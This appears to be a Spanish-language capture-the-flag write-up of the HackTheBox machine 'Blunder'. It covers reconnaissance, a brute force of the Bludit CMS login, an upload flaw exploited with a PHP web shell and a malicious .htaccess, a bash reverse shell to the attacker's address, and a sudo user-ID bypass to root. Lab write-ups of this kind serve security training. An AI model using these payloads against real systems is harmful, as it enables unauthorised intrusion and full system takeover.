---------
- Tags: #Linux #HTB #Facil 
---

- Nmap
```
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.95.225
```



- Nmap Script - Version
```
$ nmap -p80 -sC -sV 10.129.95.225
```



- Whatweb
```
$ whatweb http://blunder.htb
```



- Web


> Estamos ante un sitio web con un `CMS` llamado `Bludit`, navegando un poco por la web no encontramos nada interesante salvo que parece que utiliza version `3.9.2` por una direccion en su codigo fuente 



> Vamos a utilizar `gobuster` para buscar archivos y directorios.

```
$ gobuster dir -u http://blunder.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x php,html,txt,js,php.bak
```



> Si vamos al `todo.txt`



> Parece que `fergus` es un posible nombre de usuario, busquemos información sobre `bludit` y la versión que encontramos.




> Encontramos dos vulnerabilidades principales, una que permite hacer un `bruteforce` para encontrar una contraseña `CVE-2019-17240`, y la otra `CVE-2019-16113` que aprovechando un error en subida de archivo podemos subir un archivo `.php` malicioso, primero como tenemos el posible nombre de un usuario vamos a intentar obtener la clave.

- Usaremos este `script` para automatizar el `bruteforce`
```
https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
```

- Ejecutamos `bruteforce`
```
$ python3 a.py -l http://10.129.95.225/admin/login.php -u user.txt -p /usr/share/wordlists/rockyou.txt
```

> Despues de un rato no encontramos contraseña, vamos a probar a usar `cewl`

> [!NOTE]
> **CeWL** (Custom Word List Generator) es una herramienta de código abierto escrita en **Ruby** por Robin Wood, diseñada para generar diccionarios personalizados de contraseñas extraídos del contenido de sitios web específicos.

```
$ cewl http://blunder.htb > password.txt
```

> Volvemos a probar el `bruteforce` pero esta vez con el diccionario que nos genero

```
$ python3 a.py -l http://10.129.95.225/admin/login.php -u user.txt -p password.txt
```



> Encontramos la contraseña

```
user: fergus
pass: RolandDeschain
```


> Una vez autentificados podemos seguir con la siguiente vulnerabilidad `CVE-2019-16113` que nos permite `RCE`, para ello debemos de aprovecharnos de una `subida` de imagen, donde subiremos un `php` con extensión, el cual fallara pero se quedara guardado en una carpeta temporal, para después sobrescribir el `.htaccess` y darle permiso a ejecutar los `.png` como `.php` así iremos a la ruta donde se sube el archivo y tendremos acceso a el.


- Vamos a crear un post en el `dashboard`




- Interceptamos la peticion por `burpsuite` la de subir la imagen



- Modificamos la peticion, eliminando la imagen de prueba que pusimos y poniendo nuestro codigo `.php`
```php
<?php system($_GET['cmd']); ?>
```




> Ahora subiremos el archivo `.htacces` el cual fallara tambien, pero se guardara en la carpeta temporal

- Subir `.htaccess`
```
RewriteEngine off
AddType application/x-httpd-php .png
```



> Ahora nos dirigimos a `/bl-content/tmp/test.php?cmd=id` y obtenemos el comando `id`



> Abajo dejare un script en `python` automatizado.

> Ahora vamos a intentar obtener una `shell`

- Escuchamos por `nc`
```
$ nc -nvlp 7777
```

- Mandamos `shell`
```
bash -c 'bash -i >& /dev/tcp/10.10.14.154/7777 0>&1'
```

> Mandando el codigo normal no obtenemos una `shell`, asique vamos a pasarlo en `base64` a ver si asi es capaz de interpretarlo.

```
$ echo 'BASE64' | base64 -d | bash
```



> Obtenemos una `shell`. Vamos a proceder a enumerarla. Listamos `usuarios`

```
$ ls -ls /home
$ cat /etc/passwd | grep "sh"
```



> Encontramos 3 usuarios. Vamos a enumerar archivos, si miramos el directorio principal del usuario `www-data` encontramos dos versiones de `bludit`, vamos a mirar en la version que no es accesible desde la web



> Si entramos y miramos por los archivos, encontramos un usuario almacenado en `user.php` con el nombre de `hugo`

```
faca404fd5c0a31cf1897b823c695c85cffeb98d
```



> Con `rockyou` no encuentra la contraseña, asique vamos a probar con la web `CrackStation`



> Encuentra la contraseña `Password120`

```
user: hugo
pass: Password120
```

> Probamos a entrar al usuario y conseguimos autentificarnos



> Listamos `sudoers`

```
$ sudo -l
```



> Podemos ejecutar `/bin/bash` como cualquier usuario menos como usuario `root`. Miramos la versión de `sudo`



> Existe una vulnerabilidad para esta versión de `sudo` que si tenemos esos permisos asignados, podemos indicar un usuario en formato numérico y así hacer un `bypass`, en este caso si le decimos el usuario `0` no nos dejaría, pero el erro viene que si le indicamos el usuario `-1` interpreta que es el `0` y nos deja entrar haciendo un `bypass` a esa norma de seguridad.

- Ejemplo con `0`


- Ejemplo con `-1`


> Obtenemos acceso `root`